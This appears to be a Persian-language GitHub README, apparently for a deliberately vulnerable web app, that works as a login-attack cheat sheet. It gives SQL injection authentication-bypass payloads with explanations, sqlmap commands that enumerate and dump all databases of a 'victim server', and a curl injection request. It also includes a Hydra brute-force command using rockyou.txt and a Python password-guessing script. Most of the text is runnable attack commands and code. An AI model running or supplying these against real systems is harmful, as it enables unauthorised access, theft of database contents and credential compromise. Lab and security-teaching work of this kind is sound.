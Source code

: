 # 1. login with website

```
admin' --
123
```

```
' OR '1'='1' --
123
```

<p dir="rtl" align="justify">
  <ul dir="rtl">
  <li>' : اولین تک کوتیشن، این کار باعث بسته شدن رشته ورودی username می‌شود.</li>
	<li>-- : یک کامنت در SQL است که بقیه کوئری را نادیده می‌گیرد</li>
	<li>نتیجه این می‌شود که شرط WHERE همیشه درست خواهد بود و کوئری اولین کاربر از جدول را برمی‌گرداند (معمولاً کاربر مدیر).</li>
	<li>OR '1'='1' : یک شرط همیشه درست اضافه می‌کند (1 همیشه برابر با 1 است)</li>
  </ul>
</p>


```sql
SELECT * FROM auth_user  WHERE username='{username}' AND password='{password}'
```
```sql
SELECT * FROM vuln_app_user WHERE username='' OR '1'='1' -- ' AND password='...'
```

<p dir="rtl" align="justify">نتیجه نهایی:</p>

```sql
SELECT * FROM auth_user WHERE username='' OR '1'='1'
```

# 2. sqlmap

<p dir="rtl" align="justify">1. نصب sqlmap (اگر وجود ندارد):</p>

```
sudo apt update && sudo apt install sqlmap
```

<p dir="rtl" align="justify">2. اجرای حمله به صفحه لاگین:</p>

```
sqlmap -u "http://IP-سرور-قربانی/login/" --data="username=admin&password=123" --method=POST --risk=3 --level=5 --dbs
```

<p dir="rtl" align="justify">
  <ul dir="rtl">
    	<li>--data: پارامترهای POST ارسالی.</li>
	<li>--dbs: لیست پایگاه‌های داده را نمایش می‌دهد.</li>
  </ul>
</p>

<p dir="rtl" align="justify">برای حمله پیشرفته‌تر:</p>

```
sqlmap -u "http://IP-سرور-قربانی/login/" --data="username=admin&password=123" --method=POST --dump-all
```

# 3. curl

```
curl -X POST "http://IP-سرور-قربانی/login/" -d "username=' OR '1'='1' --&password=123"
```


# 4. Brute Force

<p dir="rtl" align="justify">1. با ابزارهای خودکار (مثل Hydra)</p>

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt victim-ip http-post-form "/login:username=^USER^&password=^PASS^:F=login_failed.html"
```

<p dir="rtl" align="justify">
  <ul dir="rtl">
    <li>l admin-: نام کاربری هدف.</li>
	<li>P rockyou.txt-: لیست پسوردهای معروف.</li>
	<li>http-post-form: نوع حمله (POST).</li>
	<li>F=login_failed.html: شرط تشخیص شکست (اگر این صفحه نمایش داده شد، پسورد اشتباه است).</li>
  </ul>
</p>


<p dir="rtl" align="justify">2. با یک اسکریپت پایتون ساده (اگر می‌خواهید خودتان بنویسید)</p>

```python
import requests

target_url = "http://victim-ip/login/"
username = "admin"
passwords = ["123456", "password", "admin123", "123"]  # یا از یک فایل بخوانید

for password in passwords:
    data = {"username": username, "password": password}
    response = requests.post(target_url, data=data)
    if "login_success" in response.text:
        print(f"✅ پسورد پیدا شد: {password}")
        break
    else:
        print(f"❌ امتحان شد: {password}")
```
